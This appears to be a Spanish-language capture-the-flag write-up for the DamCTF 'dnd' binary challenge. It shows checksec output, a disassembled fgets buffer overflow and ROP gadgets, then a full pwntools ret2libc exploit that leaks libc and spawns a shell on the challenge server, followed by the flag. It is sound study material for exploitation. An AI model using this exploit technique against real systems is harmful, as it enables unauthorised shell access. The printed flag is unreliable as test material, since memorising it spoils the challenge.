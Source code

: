 # dnd

`patchelf --set-interpreter ./ld-linux-x86-64.so.2 --replace-needed libc.so.6 ./libc.so.6 dnd`

```
checksec --file=dnd
[*] '/home/kalcast/Descargas/Pwn/dnd/dnd'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

El binario no tiene PIE ni canary (direcciones fijas y posible buffer overflow)

Si obtenemos puntos negativos "ganamos" el juego y entonces podemos introducir nuestro nombre. Se usa la funcion `fgets` para leer 0x100 bytes en un buffer de 32 asi que claramente hay un buffer overflow
```
var int64_t var_40h @ rbp-0x40
var char * s @ rbp-0x60             <--- se almacena aqui (0x60-0x40=0x20=32 bytes)
...
|           0x004028a5      488b15d458..   mov rdx, qword [obj.stdin]  ; loc.__bss_start
|                                                                      ; [0x408180:8]=0 ; FILE *stream
|           0x004028ac      488d45a0       lea rax, [s]
|           0x004028b0      be00010000     mov esi, 0x100              ; 256 ; int size
|           0x004028b5      4889c7         mov rdi, rax                ; char *s
|           0x004028b8      e813fcffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
```

El offset es de 0x60 + 8(RBP almacenado) = 104 bytes

Primero hacemos un leak de una direccion de libc. Las direcciones de libc se almacenan en la GOT, usamos por ejemplo `got.puts` y se lo pasamos de argumento a `plt.puts`, entonces puts imprimira su propia direccion y asi podremos calcular la direccion base de libc.

Para esto necesitamos un gadget. Un `pop rdi;ret` seria lo ideal pero lo mejor que pude obtener fueron estos:
```
ROPgadget --binar dnd | grep rdi
0x000000000040263d : in eax, 0x6a ; pop rdi ; nop ; pop rbp ; ret
0x0000000000403504 : mov ebp, esp ; mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x000000000040263c : mov ebp, esp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x00000000004041d1 : mov qword ptr [rbp - 8], rdi ; mov qword ptr [rbp - 0x10], rsi ; jmp 0x4041f4
0x0000000000403c44 : mov qword ptr [rbp - 8], rdi ; mov rax, qword ptr [rbp - 8] ; pop rbp ; ret
0x0000000000403506 : mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x0000000000403503 : mov rbp, rsp ; mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x000000000040263b : mov rbp, rsp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x0000000000404467 : movsd dword ptr [rdi], dword ptr [rsi] ; loopne 0x404469 ; dec dword ptr [rax - 0x75] ; pop rbp ; clc ; leave ; ret
0x00000000004025a6 : or dword ptr [rdi + 0x408158], edi ; jmp rax
0x000000000040200c : pop rdi ; add byte ptr [rax], al ; test rax, rax ; je 0x402016 ; call rax
0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
0x000000000040263e : push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x000000000040263a : push rbp ; mov rbp, rsp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x0000000000402e9e : sar byte ptr [rdi + 7], 0xb8 ; add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x402ead
0x00000000004044ad : stosb byte ptr [rdi], al ; add byte ptr [rax], al ; add cl, cl ; ret
```

Con la direccion base de libc conocida retornamos a main, "jugamos" y obtenemos la entrada vulnerable de nuevo, usamos nuestro gadget otra vez pero esta vez el parametro es `/bin/sh` y llamaremos a `system` para invocar una shell interactiva.

Exploit
```python
from pwn import *
#io = process("./dnd")
io = remote("dnd.chals.damctf.xyz",30813)
elf = context.binary = ELF("./dnd")
libc = context.binary = ELF("./libc.so.6")

# Negative points to get input
def play_game():
    io.recvuntil(b"Do you want to [a]ttack or [r]un? ")
    io.sendline(b"a")
    io.recvuntil(b"Points: ")
    points = int(io.recvuntil(b"|").decode()[:-2])
    if points < 0:
        for _ in range(4):
            io.recv()
            io.sendline(b"r")
    else:
        print("Fail!")
        exit(1)


# === ret2libc ===
# 1. leak libc.puts
play_game()
# 0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
pop_rdi_addr = 0x402640
payload = flat (
         cyclic(104),
         p64(pop_rdi_addr),
         elf.got.puts,
         b"A"*8,
         elf.plt.puts,
         elf.sym.main,
        )
io.sendlineafter(b"fierce warrior?",payload)
io.recvline()

# 2. Get libc base address
leak = io.recvline().strip()
puts_libc = u64(leak.ljust(8, b"\x00"))
log.success(f"puts@libc: {hex(puts_libc)}")
libc.address = puts_libc - libc.sym.puts

# 3. Call system("/bin/sh")
play_game()
sh = next(libc.search(b"/bin/sh\x00"))
ret_addr = pop_rdi_addr + 3
payload = flat (
         cyclic(104),
         p64(ret_addr),       # stack alignment
         p64(pop_rdi_addr),
         sh,
         b"A"*8,
         libc.sym['system'],
#         p64(0),              # stack alignment
        )
io.sendlineafter(b"fierce warrior?", payload)
io.interactive()
```

`dam{w0w_th0s3_sc4ry_m0nster5_are_w3ak}`
